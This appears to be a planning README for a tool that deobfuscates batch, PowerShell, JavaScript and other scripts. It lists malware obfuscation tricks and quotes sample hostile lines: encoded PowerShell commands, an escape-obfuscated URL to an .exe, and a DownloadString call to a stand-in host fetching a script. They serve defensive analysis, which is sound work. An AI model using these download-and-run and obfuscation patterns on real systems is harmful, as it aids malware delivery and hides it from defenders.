 # modules
Modules to interpret code. allow it to have the commands pasted in (must accept multiple lines) or read from a file. 
- batch: 
  - if file, does it end in ".bat"
  - what other file extensions could be used? is one needed at all? 
- cmd: 
  - if file, does it end in "???"
  - what other file extensions could be used? is one needed at all? 
- javascript: 
  - if file, does it end in ".js"
  - what other file extensions could be used? is one needed at all? 
- powershell: 
    Powershell can be executed in either one of the following ways:
    - Registry: This technique was extensively used by Poweliks and kovter malware variants ( mshta or rundll + ActiveXObject).
    - File: .ps1 / .VBS / .BAT and scheduled task.
    - Macros: Office files- Word, Excel, etc.
    - Remotely: PowerShell Remoting (PSS), PsExec, WMI.
  - if file, does it end in ".ps1"
  - what other file extensions could be used? is one needed at all? 
  - save copy of each iteration from original code to final with labels in a pdf
  - read line by line or determine new line = ;
  - check for encoding tricks
    - base64
      - ``` -encodedCommand ```
        - ``` powershell.exe -encodedCommand dwBoAG8AYQBtAGkA ```
      - ``` [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(' ') ```
        - ``` [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA') ```
      - ``` Start-Process “dir “c:\passwords”” à ZABpAHIAIAAiAGMAOgBcAHAAYQBzAHMAdwBvAHIAZABzACIAIAA=0g ```
    - hex bytes
    - variable substitution
    - substitution {0}(1}{2} -f $variable, text, int
    - Non-escape characters
    - Up\Low case– random uppercase or lowercase in the script
    - white spaces– random white spaces are inserted between words
    - escape character (`) will try to trick the analyst to understand the command, they are typically inserted into the middle of the string
      - ``` http://malware.com/cybad.exe à $a = (“http://mal`ware.c`om.cy`bad.ex`e”) ```
      - https://ss64.com/ps/syntax-esc.html
      - https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_special_characters?view=powershell-7.3
    - Catenations like: " + " (use regex to look for one or more ' [single quotes] or " [double quotes])
    - split and join
    - reverse text
    - ScriptBlock
    - Downloading other files
      - ``` (New-Object Net.WebClient).DownloadString(’http://www.demo.local/cybad.ps1’) ```
- python: 
  - if file, does it end in ".py" 
  - what other file extensions could be used? is one needed at all? 
- vbscript: 
  - if file, does it end in ".vbs" 
  - what other file extensions could be used? is one needed at all? 
